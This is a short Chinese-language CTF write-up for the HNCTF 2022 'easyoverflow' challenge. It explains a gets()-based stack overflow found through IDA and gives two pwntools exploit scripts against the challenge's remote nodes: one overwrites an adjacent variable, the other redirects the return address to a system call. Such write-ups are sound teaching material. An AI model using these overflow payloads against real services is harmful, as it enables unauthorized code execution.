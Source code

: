 # [HNCTF 2022 Week1]easyoverflow

![image-20250128124951277](./../images/image-20250128124951277.png)

这里发现只有一些基础的的保护

现在看一下ida反编译

![image-20250128125308202](./../images/image-20250128125308202.png)

发现读取的文件放在v4中，而读取用的是gets函数因此存在栈溢出

![image-20250128125546232](./../images/image-20250128125546232.png)

现在这里有两种方法

一

在栈结构中发现v5和v4是连在一起的因此可以想到可以覆盖v5的值为1

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",22370)
offset = 0x30-4
payload = b'a'*offset+p64(1)
io.sendline(payload)
io.interactive()
```



二

通过栈溢出把返回值跳到system的位置

```python
from pwn import *

io = remote("node5.anna.nssctf.cn",28227)
offset = 0x30+8
payload = b'a'*offset+p64(0x0401220)
io.sendline(payload)
io.interactive()
```

